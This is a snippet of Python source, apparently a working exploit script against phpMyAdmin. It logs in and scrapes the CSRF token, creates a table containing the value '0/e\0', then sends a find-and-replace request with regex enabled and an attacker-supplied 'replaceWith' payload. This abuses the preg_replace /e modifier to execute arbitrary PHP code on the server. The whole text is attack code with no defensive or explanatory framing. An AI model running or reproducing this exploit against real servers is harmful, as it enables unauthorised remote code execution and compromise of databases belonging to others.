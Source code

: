 ```python
    sql = '''CREATE TABLE `{0}` (
      `first` varchar(10) CHARACTER SET utf8 NOT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
    INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
    '''.format(table)

    # get_token
    resp = s.post(url_to_pma + "/?lang=en", dict(
        pma_username=uname,
        pma_password=upass
    ))
    if resp.status_code is 200:
        token_place = resp.text.find("token=") + 6
        token = resp.text[token_place:token_place + 32]
    if token is False:
        print("Cannot get valid authorization token.")
        sys.exit(1)

    if custom_table is False:
        data = {
            "is_js_confirmed": "0",
            "db": db,
            "token": token,
            "pos": "0",
            "sql_query": sql,
            "sql_delimiter": ";",
            "show_query": "0",
            "fk_checks": "0",
            "SQL": "Go",
            "ajax_request": "true",
            "ajax_page_request": "true",
        }
        resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
        if resp.status_code == 200:
            if "success" in resp.json():
                if resp.json()["success"] is False:
                    first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                    error = first[:first.find("</code>")]
                    if "already exists" in error:
                        print(error)
                    else:
                        print("ERROR: " + error)
                        sys.exit(1)
    # build exploit
    exploit = {
        "db": db,
        "table": table,
        "token": token,
        "goto": "sql.php",
        "find": "0/e\0",
        "replaceWith": payload,
        "columnIndex": "0",
        "useRegex": "on",
        "submit": "Go",
        "ajax_request": "true"
    }
    resp = s.post(
        url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
    )
    if resp.status_code == 200:
        result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
```